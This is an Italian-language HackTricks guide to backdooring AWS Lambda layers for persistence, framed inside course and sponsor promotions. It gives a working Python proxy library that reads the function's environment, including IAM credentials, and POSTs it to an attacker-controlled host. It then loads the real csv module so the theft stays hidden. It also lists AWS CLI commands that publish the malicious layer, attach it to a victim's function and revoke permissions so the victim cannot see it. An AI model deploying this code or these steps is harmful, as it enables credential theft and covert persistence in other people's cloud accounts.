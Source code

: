 # AWS - Persistenza di Lambda Layers

<details>

<summary><strong>Impara l'hacking AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

## Lambda Layers

Un layer Lambda è un archivio file .zip che **può contenere codice aggiuntivo** o altro contenuto. Un layer può contenere librerie, un [runtime personalizzato](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dati o file di configurazione.

È possibile includere fino a **cinque layers per funzione**. Quando si include un layer in una funzione, i **contenuti vengono estratti nella directory `/opt`** nell'ambiente di esecuzione.

Per **default**, i **layers** che crei sono **privati** per il tuo account AWS. Puoi scegliere di **condividere** un layer con altri account o di **rendere** il layer **pubblico**. Se le tue funzioni consumano un layer pubblicato da un account diverso, le tue funzioni possono **continuare a utilizzare la versione del layer anche dopo che è stata eliminata, o dopo che il permesso di accesso al layer è stato revocato**. Tuttavia, non puoi creare una nuova funzione o aggiornare funzioni utilizzando una versione del layer eliminata.

Le funzioni distribuite come immagine del contenitore non utilizzano layers. Invece, si impacchetta il runtime preferito, le librerie e altre dipendenze nell'immagine del contenitore durante la creazione dell'immagine.

### Percorso di caricamento Python

Il percorso di caricamento che Python utilizzerà in lambda è il seguente:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Verifica come il **secondo** e il terzo **posizioni** sono occupate dalle directory in cui i **livelli di lambda** decomprimono i loro file: **`/opt/python/lib/python3.9/site-packages`** e **`/opt/python`**

{% hint style="danger" %}
Se un attaccante riuscisse a **installare un backdoor** in un **livello di lambda** utilizzato o **aggiungerne uno** che eseguirà **codice arbitrario quando viene caricata una libreria comune**, sarà in grado di eseguire codice dannoso ad ogni invocazione di lambda.
{% endhint %}

Pertanto, i requisiti sono:

* **Controllare le librerie** che vengono **caricate** dal codice delle vittime
* Creare una **libreria proxy con i livelli di lambda** che eseguirà **codice personalizzato** e **caricherà la libreria originale**.

### Librerie precaricate

{% hint style="warning" %}
Nel momento in cui ho abusato di questa tecnica, ho riscontrato una difficoltà: Alcune librerie sono **già caricate** nell'ambiente di runtime di Python quando il tuo codice viene eseguito. Mi aspettavo di trovare cose come `os` o `sys`, ma **anche la libreria `json` era caricata**.\
Per abusare di questa tecnica di persistenza, il codice deve **caricare una nuova libreria che non è già caricata** quando il codice viene eseguito.
{% endhint %}

Con un codice Python come questo è possibile ottenere l'**elenco delle librerie precaricate** all'interno dell'ambiente di runtime di Python in lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
E questa è la **lista** (verifica che le librerie come `os` o `json` siano già presenti)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
E questa è la lista delle **librerie** che **lambda include installate di default**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring del Lambda Layer

In questo esempio supponiamo che il codice mirato stia importando **`csv`**. Andremo a **inserire un backdoor nell'import della libreria `csv`**.

Per farlo, creeremo la directory csv con il file **`__init__.py`** al suo interno in un percorso che viene caricato da lambda: **`/opt/python/lib/python3.9/site-packages`**\
Quindi, quando il lambda viene eseguito e cerca di caricare **csv**, il nostro file **`__init__.py` verrà caricato ed eseguito**.\
Questo file deve:

* Eseguire il nostro payload
* Caricare la libreria csv originale

Possiamo fare entrambe le cose con:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Quindi, crea un file zip con questo codice nel percorso **`python/lib/python3.9/site-packages/__init__.py`** e aggiungilo come un layer lambda.

Puoi trovare questo codice su [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Il payload integrato **invierà le credenziali IAM a un server LA PRIMA VOLTA che viene invocato o DOPO un reset del container lambda** (cambio di codice o lambda fredda), ma **altre tecniche** come le seguenti potrebbero anche essere integrate:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Livelli Esterni

Nota che è possibile utilizzare **livelli lambda da account esterni**. Inoltre, una lambda può utilizzare un layer da un account esterno anche se non ha le autorizzazioni.\
Nota anche che il **numero massimo di livelli che una lambda può avere è 5**.

Pertanto, per migliorare la versatilità di questa tecnica un attaccante potrebbe:

* Inserire un backdoor in un layer esistente dell'utente (nulla è esterno)
* **Creare** un **layer** nel **suo account**, dare all'**account della vittima l'accesso** per utilizzare il layer, **configurare** il **layer** nella Lambda della vittima e **rimuovere l'autorizzazione**.
* La **Lambda** sarà comunque in grado di **utilizzare il layer** e la **vittima non** avrà un modo semplice per **scaricare il codice dei livelli** (a parte ottenere una reverse shell all'interno della lambda)
* La vittima **non vedrà livelli esterni** utilizzati con **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione esclusiva di [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
